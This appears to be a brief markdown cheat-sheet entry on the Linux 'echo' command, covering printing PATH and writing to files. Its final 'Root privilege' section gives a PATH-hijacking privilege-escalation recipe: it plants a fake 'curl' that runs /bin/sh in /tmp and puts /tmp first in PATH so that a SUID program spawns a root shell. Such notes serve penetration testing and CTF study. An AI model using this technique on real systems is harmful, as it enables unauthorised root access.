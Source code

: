 ```yaml
---
title: Echo
desc: In addition to the output of string, there are other uses such as the privileges escalation.
tags: [Linux, PrivEsc]
alts: []
website:
---
```


## Directories specified by PATH

```sh
echo $PATH
```

## Add text to file

```sh
# Add text
echo "Hello World" >> sample.txt

# Overwrite (original contents disappears)
echo "Hello World" > sample.txt

# Enable escape
echo -e "Hello\nWorld" > sample.txt
```

## Root privilege

```sh
cd /tmp
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH

# Some SUID command...

# Then you are root user
```